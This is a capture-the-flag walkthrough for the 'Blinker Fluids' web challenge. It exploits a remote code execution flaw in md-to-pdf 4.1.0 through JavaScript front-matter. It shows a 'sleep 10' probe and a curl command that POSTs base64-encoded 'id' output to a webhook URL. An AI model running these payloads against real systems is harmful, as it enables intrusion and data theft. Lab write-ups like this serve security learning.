


 # Blinker FLuids

__Description:__

>Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

## Walkthrough

We have a lightweight page in which we have the option to create Invioces.



Plus, the challenge code is given to us here.

So I took a look at the source code of the application.


The file `package.json` shows us that the application works with the Markdown package `"md-to-pdf": "4.1.0"`.

I learned online that this package probably has an RCE vulnerability.

[security.snyk.io](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)

I entered the following payload with `sleep 10` first to detect a time delay.

```
---js
((require("child_process")).execSync("sleep 10"))
---RCE
```

Since I was able to detect a time delay, that proves to us that dropping systemcommands works here.

## Flag - Data exfiltration

To exfiltrate the flag I used `webhook.site` and sent me the flag via `curl` with the following payload.

__Payload:__


```
---js
((require("child_process")).execSync("curl -X POST --data `id | base64` https://<WEBHOOK_URL>>"))
---RCE
```


